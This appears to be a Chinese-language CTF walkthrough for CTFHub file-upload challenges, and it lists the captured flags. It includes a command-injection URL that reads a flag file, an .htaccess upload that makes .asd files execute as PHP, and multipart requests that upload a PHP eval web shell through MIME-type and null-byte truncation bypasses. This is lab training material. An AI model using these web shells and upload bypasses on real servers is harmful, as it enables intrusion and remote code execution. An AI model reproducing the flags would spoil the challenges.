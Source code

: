 ```
http://challenge-ce68f5bafd33a92b.sandbox.ctfhub.com:10800/upload/index.php?x=echo `cat /var/www/html/flag_1648429041.php | base64`;
```

flag: `ctfhub{8c43bc94e39e9a8749eec390}`

### 文件上传 - 前端验证

拦截抓包改，或者改前端代码，都可以，然后剩下跟前面一样

flag: `ctfhub{3db33dfdceaeab70c35c6893}`

### 文件上传 - .htaccess

```
------WebKitFormBoundaryglP3qYgfAlD4p1Jg
Content-Disposition: form-data; name="file"; filename=".htaccess"
Content-Type: application/octet-stream

<FilesMatch "\.asd$">
	SetHandler application/x-httpd-php
</FilesMatch>

------WebKitFormBoundaryglP3qYgfAlD4p1Jg
```

flag: `ctfhub{5e91162d6d3f49c5114e25d0}`

### 文件上传 - MIME 绕过

```http
------WebKitFormBoundaryc6sfnDqiBhfIrJJ3
Content-Disposition: form-data; name="file"; filename="x.php"
Content-Type: image/jpeg

<?php eval($_GET['x']) ?>
------WebKitFormBoundaryc6sfnDqiBhfIrJJ3
```

flag: `ctfhub{ecc138377657a7a7d85b5ffc}`

### 文件上传 - 00 截断

```http
POST /?road=/var/www/html/upload/x.php%00 HTTP/1.1
Host: challenge-5c8669b200ad04c7.sandbox.ctfhub.com:10800
<omitted ...>


------WebKitFormBoundary8acXxWBRTBOzGgbP
Content-Disposition: form-data; name="file"; filename="file.jpg"
Content-Type: image/jpeg

<?php eval($_GET['x']) ?>
------WebKitFormBoundary8acXxWBRTBOzGgbP
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary8acXxWBRTBOzGgbP--
```
